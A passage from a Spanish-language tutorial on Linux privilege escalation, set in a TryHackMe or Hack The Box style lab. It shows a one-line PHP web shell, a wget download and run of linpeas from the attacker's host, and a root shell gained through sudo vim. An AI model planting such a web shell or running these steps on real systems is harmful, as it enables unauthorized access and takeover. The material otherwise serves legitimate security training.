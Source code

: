    ```php
   <?php system($_GET['cmd']); ?>
   ```

---

### 💻 Ejemplo completo (máquina tipo TryHackMe o Hack The Box)

#### Contexto:

- Te conectas a una máquina vulnerable con una shell de usuario `www-data`.
- Quieres escalar a `root`.

#### Paso 1: Reconocimiento

```bash
whoami
=> www-data

hostname
=> webserver-01
```

#### Paso 2: Enumeración con linpeas

```bash
wget http://tuIP:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Resultado:

```bash
User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/vim
```

#### Paso 3: Escalada con `sudo` y vim

```bash
sudo vim -c ':!/bin/sh'
```

Boom 💥, ya tienes una shell como `root`.

Verificación:

```bash
whoami
=> root
```

---

### 📌 Consejos finales
